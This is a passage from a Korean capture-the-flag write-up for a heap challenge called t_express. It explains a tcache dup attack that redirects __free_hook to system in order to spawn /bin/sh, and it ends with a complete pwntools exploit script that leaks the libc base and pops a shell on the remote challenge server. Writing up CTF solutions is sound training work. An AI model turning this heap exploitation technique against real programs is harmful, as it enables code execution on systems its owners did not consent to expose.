- __free_hook의 주소를 Overwrite하기 위해 같은 크기로 할당을 한후  `FD` 의 값을 `__free_hook` 주소로 변경하게 되면 남은 tcache의 FD 값도 해당 __free_hook을 가리키게 된다.



tcache dup

- 다음 tcache에는 "/bin/sh\x00" 문자열을 집어 넣어할당한다. 나중에 __free_hook 주소를 system 주소로 변경하여 free를 호출할 때 system 함수가 호출되면서 해당 힙 청크를 인자로 사용하기 위해서이다.`system(/bin/sh\x00)`



flag

- flag를 획득할 수 있다.

## 공격 코드

```python
from pwn import *

e = ELF('./t_express')
l = ELF('./libc.so.6')
# p = process('./t_express')
p = remote('ctf.campus.theori.io', 7079)

def Buy(num, first, last):
    log.info(p.sendafter("choice: ", "1"))
    log.info(p.sendafter("(1/2): ", str(num))+str(num))
    log.info(p.sendafter("First name: ", str(first)) + str(first))
    log.info(p.sendafter("Last name: ", str(last)) + str(last))

def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))

def Use(idx, num):
    log.info(p.sendafter("choice: ", "3"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    log.info(p.sendafter("(1/2/3/4): ", str(num)) + str(num))

def _free(idx):
    for i in range(0,3):
        Use(idx, 1)
    Use(idx, 2)
    Use(idx, 3)

lib_base = View(-4)

Buy(1, "AAAA", "BBBBBBBB")
Buy(2, "AAAA", "BBBB")

_free(1)

for i in range(0,2):
    Use(0, 4)
    Use(1, 4)

lib_system = lib_base + l.sym['system']
free_hook = lib_base + l.sym['__free_hook']

log.info(hex(lib_system))
log.info(hex(free_hook))

Buy(2, p64(free_hook), "BBBB")
Buy(2, "/bin/sh\x00", "BBBB")
Buy(2, p64(lib_system), "BBBB")

_free(3)
p.interactive()
```

```toc
```